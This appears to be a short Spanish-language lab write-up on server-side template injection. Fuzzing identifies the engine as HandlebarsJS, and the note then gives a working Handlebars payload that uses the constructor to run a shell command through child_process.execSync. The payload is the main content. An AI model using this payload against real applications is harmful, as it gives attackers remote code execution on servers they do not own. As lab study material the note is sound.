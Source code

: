 
Fuzzeamos como en el anterior lab y con el error que tira nos chiva que es **HandlebarsJS**	

![[Pasted image 20250118214036.png]]

El siguiente chorizo sirve para ejecutar código:

```javascript
{{#with "s" as |string|}}{{#with "e"}}{{#with split as |conslist|}}{{this.pop}}{{this.push (lookup string.sub "constructor")}}{{this.pop}}{{#with string.split as |codelist|}}{{this.pop}}{{this.push "return require('child_process').execSync('ls -la');"}}{{this.pop}}{{#each conslist}}{{#with (string.sub.apply 0 codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}

```